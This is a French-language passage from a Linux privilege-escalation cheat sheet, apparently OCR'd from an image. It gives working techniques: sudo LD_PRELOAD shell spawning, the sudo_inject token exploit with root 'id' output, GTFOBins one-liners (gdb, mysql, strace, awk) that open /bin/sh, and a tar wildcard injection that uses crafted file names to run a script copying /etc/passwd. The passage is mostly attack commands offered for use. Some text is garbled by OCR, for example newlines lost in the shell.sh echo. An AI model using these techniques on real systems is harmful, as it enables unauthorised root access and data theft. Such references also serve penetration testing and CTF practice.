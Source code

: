 Exécute n'importe quel binaire avec LD_PRELOAD pour faire spawn un shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

Il existe certaines alternatives au binaire `sudo` comme `doas` pour OpenBSD, n'oubliez pas de vérifier sa configuration dans `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

On utilise [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Pressez <ctrl>+c puisque vous n'avez pas le mot de passe. 
# Cela crée un token sudo invalide.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # pas de mot de passe requis :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Diapos de présentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

## GTFOBins

[GTFOBins](https://gtfobins.github.io) est une liste de conservation des binaires Unix qui peut être utilisé par un attaquant pour contourner les restrictions de sécurité locales.

Le projet collecte les fonctions légitimes des binaires d'Unix dont on peut se servir pour sortir d'un shell restreint, pour escalader ou maintenir des privilèges élevés, transférer des fichiers, faire spawn des bine et des reverse shells, et faciliter d'autres tâches de post-exploitation.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard

En utilisant tar avec l'option --checkpoint-action, un action spécifique peut être exécutée après un checkpoint. Cette action pourrait être un script malicieux utilisé pour exécuter des commandes sous l'utilisateur qui démarre tar. 'Piéger' root pour utiliser cette option spécifique est plutôt simple, et c'est ici que les wildcard deviennent intéressantes.

```powershell
# Créer un fichier pour l'exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#!/bin/bashncat /etc/passwd > /tmp/flagnchmod 777 /tmp/flag" > shell.sh

# Script vulnérable
tar cf archive.tar *
```

